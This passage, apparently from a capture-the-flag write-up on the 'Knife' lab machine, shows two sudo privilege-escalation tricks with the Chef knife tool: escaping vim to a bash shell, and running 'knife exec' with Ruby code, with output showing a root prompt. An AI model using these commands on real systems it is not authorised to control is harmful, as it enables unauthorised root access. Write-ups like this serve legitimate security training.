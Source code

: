#### vim Escape

Running `knife data bag create 0xdf output -e vim` will open a new bag
in `vim`:

![](/img/image-20210522155041425.png)

I'll escape vim with `:!/bin/bash`:

![](/img/image-20210522155109446.png)

#### exec

More simply, `knife` has an `exec`
[command](https://docs.chef.io/workstation/knife_exec/) that will run
Ruby code. This is the technique now on GTFObins, but it wasn't there
when Knife released. There was a [GTFObins page on
Ruby](https://gtfobins.github.io/gtfobins/ruby/#sudo) that shows running
`sudo ruby -e 'exec "/bin/sh"'`. The Ruby code there is
`exec "/bin/sh"`. Using the same Ruby code here works:



    james@knife:~$ sudo knife exec -E "exec '/bin/bash'"         
    root@knife:/home/james#
